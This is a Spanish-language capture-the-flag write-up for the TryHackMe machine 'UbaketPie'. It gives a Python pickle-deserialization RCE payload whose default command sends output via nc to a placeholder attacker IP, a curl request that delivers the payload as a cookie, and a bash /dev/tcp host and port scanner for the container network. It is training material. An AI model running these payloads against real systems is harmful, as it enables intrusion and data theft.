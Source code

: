   ```python
  #!/usr/bin/python

  import cPickle
  import sys
  import base64

  DEFAULT_COMMAND = "whoami | nc [Your IP] [PORT]"
  COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

  class PickleRce(object):
      def __reduce__(self):
          import os
          return (os.system,(COMMAND,))

  print base64.b64encode(cPickle.dumps(PickleRce()))
  ```

  Este código ya es suficiente para poder conseguir un **RCE** en la maquina victima, esto se haría usando curl para enviar una petición Get con la cookie serializada y seria de la siguiente forma.

  ```bash
curl -X GET "http://[Ip Machine]:5003/search" -H 'Cookie: search_cookie="[Data Serializada]"'
  ```

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/pickle.png?raw=true">
  </p>

  Ya sabiendo que podemos ejecutar comando nos entablamos una shell a nuestro equipo.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/shell.png?raw=true">
  </p>

  Enumerando el sistema podemos ver que estamos en un contenedor el cual tiene la ip **[172.17.0.2]** y también se puede ver que el **bash_history** no fue borrado y podemos ver los comando que se ejecutaron en la maquina, en lo que se ve es que existe un segmento de red el cual tiene la ip **[172.17.0.1]** y tiene al parecer el puerto 22 abierto para comprobar esto me cree un script en **bash** para encontrar diferentes host y sus puertos abiertos.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/ssh.png?raw=true">
  </p>

  ```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 172.17.0.$i"  &> /dev/null && echo "[!] HOST 172.17.0.$i" &
        for port in $(seq 1 65535);do
                timeout 1 bash -c "echo '' > /dev/tcp/172.17.0.$i/$port" 2>/dev/null && echo $'\t' " [+] Port $port - OPEN" &
        done; wait
done; wait
  ```
  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/script.png?raw=true">
  </p>
